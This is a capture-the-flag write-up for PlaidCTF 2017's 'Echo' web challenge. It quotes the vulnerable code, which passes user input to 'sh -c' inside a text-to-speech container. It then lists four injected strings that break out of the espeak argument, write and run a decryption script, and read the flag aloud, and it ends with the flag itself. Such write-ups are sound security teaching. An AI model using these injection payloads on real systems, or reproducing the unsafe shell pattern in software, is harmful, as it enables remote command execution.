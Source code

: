 # PlaidCTF 2017 - Echo

| Category | Points | Solves |
| -------- |--------| -------|
| Web      | 200    | 300    |

> If you hear enough, you may hear the whispers of a key... 
> If you see [app.py](echo_57f0dd57961caae2fd8b3c080f0e125b.py) well enough, you will notice the UI sucks... 
> 
> http://echo.chal.pwning.xxx:9977/
>
> http://echo2.chal.pwning.xxx:9977/

## Solution

We are given with an application that converts strings into audio using a Docker container which is [publicly available](https://hub.docker.com/r/lumjjb/echo_container/):

```python
    docker_cmd = "docker run -m=100M --cpu-period=100000 --cpu-quota=40000 --network=none -v {path}:/share lumjjb/echo_container:latest python run.py"

    tweets = []
    for i in range(4):
        t = request.args.get('tweet_' + str(i+1))
        tweets.append(t)

    my_path = "/tmp/echo/" + uuid.uuid4().hex + "/"

    # strings are saved on /tmp/echo/uuid/input
    with open(my_path + "input" ,"w") as f:
        f.write('\n'.join(tweets))
   
    # encrypted flag is stored on /tmp/echo/uuid/flag
    process_flag(my_path + "flag")
    
    subprocess.call(docker_cmd.format(path=my_path).split())
```

The process_flag function takes the original flag and stores it in the input file using a reversible encryption algorithm:

```python
    with open('/tmp/echo/uuid/flag','w') as f:
        for x in flag:
            c = 0
            towrite = ''
            for i in range(65000 - 1):
                k = random.randint(0,127)
                c = c ^ k
                towrite += chr(k)

            # 64999 bytes with k states +
            # 1 byte of a flag char xored with the c state
            f.write(towrite + chr(c ^ ord(x)))
    return
```


A shared folder is being used inside the container to transfer files to and from the main application as seen on the docker_cmd spec. Following you can see the folder mappings:

| Host | Guest | Description |
| ---- | ----- | ----------- |
| /tmp/echo/uuid/ | /share/ | Share folder pointing to unique path on host |
| /tmp/echo/uuid/input | /share/input | Tweets |
| /tmp/echo/uuid/out/ | /share/out/ | Folder used to store audio files |
| /tmp/echo/uuid/flag | /share/flag | Encrypted flag from process_flag function |


The [run.py](run.py) application inside the Docker container is vulnerable to remote command execution:

```python
    with open('/share/input') as f:
        lines = f.readlines()
        i=0
        for l in lines:
            i += 1
            l = l.strip()
            call(["sh","-c", "espeak " + " -w " + OUTPUT_PATH + str(i) + ".wav \"" + l + "\""])
```

Now we have two options to solve the problem:

1. Get the entire flag file using the espeak command, and the automate the data extraction from the wav file.
2. Decrypt the flag file directly on the server and get it as an audio file.

I first went for the entire flag file extraction and promptly have technical issues, the process_audio function ignores audio with more than 5MB. To get one character from the file we needed to get 65k bytes and convert them into audio, with an hexadecimal codification the final audio was heavier than expected (100MB), so the function ignores the file completely.

Finally, the second option was implemented with a friend advice. The following script was used to decrypt the file:

```python
with open('/share/flag','rb') as f:
    while True:
        b = f.read(65000)
        
        if not b:
            break
        
        c=0
        for i in range(64999):
            c = c ^ ord(b[i])
        
        print hex(c ^ ord(b[64999]))[2::]
```

The four injected strings were:
```bash
";echo "with open('/share/flag','rb') as f:\n while True:\n  b = f.read(65000)\n  if not b:\n   break\n  c=0\n">/share/out/test;echo "
";echo "  for i in range(64999):\n   c = c ^ ord(b[i])\n  print hex(c ^ ord(b[64999]))[2::]\n">>/share/out/test;"
";python2 /share/out/test> /share/out/words 2>&1;echo "
";espeak -s 150 -g 50 -w /share/out/1.wav -f /share/out/words;echo "
```

You can hear the flag from the [first audio file](1.wav).

## Flag
> PCTF{L15st3n_T0__reee_reeeeee_reee_la}
